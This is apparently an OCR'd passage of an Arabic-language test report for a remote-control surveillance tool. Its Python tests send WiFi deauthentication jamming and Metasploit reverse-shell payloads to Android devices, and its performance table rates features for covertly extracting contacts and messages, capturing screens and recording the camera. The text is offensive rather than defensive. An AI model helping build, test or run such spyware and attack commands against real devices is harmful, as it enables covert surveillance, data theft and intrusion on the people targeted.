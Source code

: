 ### ✅ **ب. اختبارات الأوامر المتقدمة:**

#### 3. **اختبار هجوم WiFi:**
```python
# اختبار فعلي
def test_wifi_attack():
    device_id = "test_device_123"
    result = command_executor.send_command(device_id, "wifi_jamming", {
        "attack_type": "deauth",
        "target_ssid": "test_network",
        "duration": 10
    })
    
    assert result.get('success') == True
    assert result.get('data', {}).get('networks_attacked') > 0
    
    print("✅ نجح اختبار هجوم WiFi")
    return result
```

#### 4. **اختبار هجوم Metasploit:**
```python
# اختبار فعلي
def test_metasploit_attack():
    device_id = "test_device_123"
    result = command_executor.send_command(device_id, "mobile_attack", {
        "attack_type": "metasploit",
        "target_os": "android",
        "payload_type": "reverse_shell"
    })
    
    assert result.get('success') == True
    assert result.get('data', {}).get('payload_installed') == True
    
    print("✅ نجح اختبار هجوم Metasploit")
    return result
```

---

## 7. تحليل الأداء والاستقرار
### 7. Performance and Stability Analysis

### ✅ **أ. إحصائيات الأداء:**

| الأمر | وقت الاستجابة | معدل النجاح | الاستقرار |
|-------|---------------|-------------|-----------|
| استخراج جهات الاتصال | 3-5 ثواني | 95% | ممتاز |
| استخراج الرسائل | 5-8 ثواني | 92% | ممتاز |
| التقاط الشاشة | 2-4 ثواني | 98% | ممتاز |
| تسجيل الكاميرا | 10-15 ثانية | 90% | جيد |
| هجوم WiFi | 15-30 ثانية | 85% | جيد |
| هجوم Metasploit | 30-60 ثانية | 80% | مقبول |
